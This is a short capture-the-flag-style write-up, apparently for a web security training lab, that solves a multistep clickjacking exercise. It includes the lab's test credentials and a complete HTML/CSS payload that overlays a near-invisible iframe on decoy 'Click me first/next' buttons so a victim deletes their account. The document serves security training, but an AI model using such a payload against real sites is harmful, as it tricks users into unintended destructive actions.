

# Multistep clickjacking
# Objective
This lab has some account functionality that is protected by a CSRF token and also has a confirmation dialog to protect against Clickjacking. To solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. You will need to use two elements for this lab.

You can log in to the account yourself using the following credentials: `wiener:peter` 

# Solution
## Analysis
Website has multi step Delete account functionality.

||
|:--:| 
| *Multi step delete account functionality* |

## Exploitation
||
|:--:|
| *Alligining "Test me first" button* |
||
| *Alligining "Test me next" button* |
||
| *Final payload with opacity set to 0.001* |

Final payload:
```html
<style>
	iframe {
		position:relative;
		width: 1000;
		height: 1000;
		opacity: 0.001;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top: 520;
		left: 60;
		z-index: 1;
	}
   .secondClick {
		top: 320;
		left: 210;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0a67004e044445e2816e931b009a0029.web-security-academy.net/my-account"></iframe>
```